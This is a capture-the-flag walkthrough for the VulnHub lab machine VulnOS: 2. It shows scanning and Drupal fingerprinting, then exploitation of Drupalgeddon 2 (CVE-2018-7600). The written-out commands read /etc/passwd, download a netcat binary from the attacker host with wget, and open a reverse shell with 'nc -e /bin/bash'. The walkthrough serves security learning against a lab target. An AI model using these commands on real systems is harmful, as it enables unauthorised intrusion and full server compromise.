









# VulnOS: 2

- **Machine:** VulnOS: 2
- **Download:** https://www.vulnhub.com/entry/vulnos-2,147/



---

# Machine Setup

1. Extract the downloaded archive.

```bash
7z e VulnOSv2.7z
```


2. Double-click **VulnOSv2.vbox** to import the machine into VirtualBox.
3. Start the virtual machine.

---

# Network Scanning

## Discover the Target IP

Identify the target machine on the local network.

```bash
nmap -sn 192.168.31.0/24
```


---

## Port Scan

Scan all TCP ports.

```bash
nmap -v -p- 192.168.31.50
```



---

## Service Enumeration

Identify running services, versions, operating system, and execute default NSE scripts.

```bash
nmap -sC -sV -A 192.168.31.50
```



---

## HTTP Enumeration

Run the HTTP enumeration NSE script.

```bash
nmap -v -p 80 -sT -sV -A --script=http-enum.nse 192.168.31.50
```


---

# Web Enumeration

Browse the web server.

```text
http://192.168.31.50/
```

---

## Directory Enumeration

Perform directory brute-forcing.

```bash
feroxbuster --url http://192.168.31.50 -w /usr/share/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt
```

Discovered endpoint:

```text
http://192.168.31.50/jabc/
```



---

## CMS Fingerprinting

Identify the content management system.

```bash
cmseek -v -u http://192.168.31.50/jabc/
```

CMSeeK identifies the application as **Drupal**.


---

# Exploitation

The Drupal installation is vulnerable to **Drupalgeddon 2 (CVE-2018-7600)**.

Exploit reference:

```text
https://github.com/pimps/CVE-2018-7600/blob/master/drupa7-CVE-2018-7600.py
```

Download the exploit script.

---

## Interactive Shell

Launch the exploit in interactive mode.

```bash
python drupa7-CVE-2018-7600.py http://192.168.31.50/jabc/
```



---

## Execute Commands

Retrieve the operating system information.

```bash
python drupa7-CVE-2018-7600.py http://192.168.31.50/jabc/ -c uname
```


Retrieve detailed kernel information.

```bash
python drupa7-CVE-2018-7600.py http://192.168.31.50/jabc/ -c 'uname -a'
```


---

## Read Sensitive Files

Read the system user list.

```bash
python drupa7-CVE-2018-7600.py http://192.168.31.50/jabc/ -c 'cat /etc/passwd'
```



---

## Verify Available Utilities

Check whether **wget** is installed.

```bash
python drupa7-CVE-2018-7600.py http://192.168.31.50/jabc/ -c 'wget -h'
```

Display CPU information.

```bash
python drupa7-CVE-2018-7600.py http://192.168.31.50/jabc/ -c 'lscpu'
```


---

# Prepare Reverse Shell

## Start an HTTP Server

Host the payload from the attacker machine.

```bash
python3 -m http.server 443
```



---

## Download Netcat

Transfer the Netcat binary to the target.

```bash
python drupa7-CVE-2018-7600.py http://192.168.31.50/jabc/ -c 'wget http://192.168.31.206:443/nc32 -O /tmp/nc'
```



---

## Verify the Download

Confirm the binary exists.

```bash
python drupa7-CVE-2018-7600.py http://192.168.31.50/jabc/ -c 'ls -lh /tmp/nc'
```


---

## Make the Binary Executable

```bash
python drupa7-CVE-2018-7600.py http://192.168.31.50/jabc/ -c 'chmod +x /tmp/nc'
```

---

## Start the Listener

On the attacker machine:

```bash
nc -lvnp 443
```

---

## Execute the Reverse Shell

Run the downloaded Netcat binary to establish a reverse shell.

```bash
python drupa7-CVE-2018-7600.py http://192.168.31.50/jabc/ --command '/tmp/nc -e /bin/bash 192.168.31.206 443'
```



A reverse shell is successfully established.


---

# Vulnerability Summary

| No. | Vulnerability | Impact |
|-----|---------------|--------|
| 1 | Drupalgeddon 2 (CVE-2018-7600) | Remote Code Execution |
| 2 | Outdated Drupal CMS | Full system compromise |
| 3 | Arbitrary Command Execution | Read sensitive files and execute system commands |
| 4 | Unrestricted Payload Download | Upload and execute attacker-controlled binaries |
| 5 | Reverse Shell Execution | Complete remote access to the server |

---

# Key Learning

- Always fingerprint the CMS before attempting exploitation.
- **CMSeeK** is useful for identifying CMS technologies and versions.
- **Drupalgeddon 2 (CVE-2018-7600)** allows unauthenticated remote code execution on vulnerable Drupal 7 installations.
- After achieving command execution, verify the availability of utilities such as **wget**, **curl**, or **python** to determine the most appropriate post-exploitation method.
- If a scripting language is unavailable, a standalone binary such as Netcat can be transferred to obtain an interactive shell.

---

# Summary

The assessment began with network and web enumeration, revealing a Drupal application hosted under the **/jabc/** directory. CMS fingerprinting with **CMSeeK** confirmed the target was running a vulnerable version of Drupal susceptible to **Drupalgeddon 2 (CVE-2018-7600)**. Exploiting this vulnerability provided unauthenticated remote command execution. After verifying available system utilities, a Netcat binary was transferred to the target using **wget**, made executable, and used to establish a reverse shell back to the attacker. This machine demonstrates the risks associated with running outdated CMS software and highlights how a publicly available Remote Code Execution vulnerability can quickly lead to complete system compromise.